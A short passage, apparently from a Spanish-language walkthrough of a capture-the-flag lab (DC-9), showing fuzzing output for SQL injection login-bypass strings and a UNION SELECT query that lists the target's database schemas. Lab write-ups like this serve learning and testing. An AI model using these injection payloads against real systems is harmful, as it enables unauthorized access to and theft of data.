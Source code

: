 ```
000000023:   200        54 L     250 W      3165 Ch     "' or true--"                                                         
000000046:   200        54 L     250 W      3165 Ch     "admin' or 1=1#"                                                      
000000039:   200        54 L     250 W      3165 Ch     "admin' or '1'='1"                                                    
000000041:   200        54 L     250 W      3165 Ch     "admin' or '1'='1'#" 
```

Compruebo la vulnerabilidad sql basado en error

![sql1](../assets/imgs/dc9/sql1.png)

#### Filtrando datos críticos

##### Base de datos

```
' UNION SELECT schema_name,2,3,4,5,6 FROM information_schema.schemata-- -
information_schema
Staff
users
```
